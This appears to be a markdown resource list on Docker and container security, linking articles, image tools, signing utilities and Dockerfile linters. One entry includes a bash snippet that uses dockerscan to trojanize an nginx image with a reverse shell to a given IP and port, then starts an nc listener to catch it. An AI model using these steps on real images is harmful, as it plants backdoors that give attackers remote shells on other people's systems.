 # Articles
* [Worst best practices on Docker](https://pythonspeed.com/articles/security-updates-in-docker/) and why you should update base images
* [Singularity](https://sylabs.io/guides/3.0/user-guide/quick_start.html) quick start / Single file based container
* [Understanding container escapes](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)

# Tools
* [dockerscan](https://github.com/cr0hn/dockerscan) weaponize container images
```bash
docker save nginx:latest -o nginx-original
dockerscan image info nginx-original
dockerscan image analyze nginx-original
dockerscan image modify trojanize nginx-original -l 10.244.100.147 -p 2222 -o nginx-trojan
docker load -i nginx-trojan
# on remote
nc -v -k -l 10.244.100.147 2222
# run 
docker run ngimx:latest
# honk :)
```
* [syft](https://github.com/anchore/syft) generate software bill of materials of containers
* [build kit](https://hub.docker.com/r/docker/dockerfile/) cheat sheet
* [buildah](https://github.com/containers/buildah/tree/master/docs/tutorials)
* [dumb-init](https://github.com/Yelp/dumb-init) - Process supervisor that runs with PID 1 and spawns other process inside the container. Handles signals. 
* [distroless](https://github.com/GoogleContainerTools/distroless)
* [google-base-image](https://github.com/GoogleContainerTools/base-images-docker) how google build images with reproducible builds
* [container-diff](https://github.com/GoogleContainerTools/container-diff)
* [dive](https://github.com/wagoodman/dive)
* [skopeo](https://github.com/containers/skopeo)

# Content Trust
* [Google's Cosign](https://github.com/sigstore/cosign)
* [Distroless + Cosign](https://security.googleblog.com/2021/05/making-internet-more-secure-one-signed.html)
* [Notary](https://docs.docker.com/notary/getting_started/)

## Dockerfile and CIS Benchmark
* [Hadolint](https://github.com/hadolint/hadolint) - tests Dockerfile
* [Dockle](https://github.com/goodwithtech/dockle) - tests images


## CVE
* [CVE List](https://www.container-security.site/general_information/container_cve_list.html)

